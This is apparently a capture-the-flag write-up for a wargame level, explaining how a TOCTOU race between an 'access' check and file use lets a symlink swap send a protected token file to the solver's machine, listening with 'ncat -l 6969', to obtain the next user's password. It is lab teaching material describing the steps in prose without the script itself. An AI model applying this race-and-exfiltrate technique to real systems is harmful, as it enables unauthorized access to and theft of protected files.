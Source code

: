 # Level10

We have a binary and a token file.
The binary allows us to send the content of a file over the network. Over the port 6969 that it is attached to.
Dissasembling the binary, we find the `access` syscall which does not let us simply bypass it with a simple symlink. BUT it is vulnerable to a `TOCTOU attack (Time of check/Time of use attack)`.

To exploit this, we wrote a script to create a symlink to a file that we have access to, and then overwrite the symlink to the token file, and all this in an endless loop.

We launch `ncat -l 6969` on our machine to receive the sent token.
We then launch our script in `/tmp/level10/script.sh` (don't forget to `chmod +x`).
And finally we need to get the good timing when executing `./level10/tmp/level10/link <our-machine-ip>`.
We will eventually receive the password for the flag10 user.
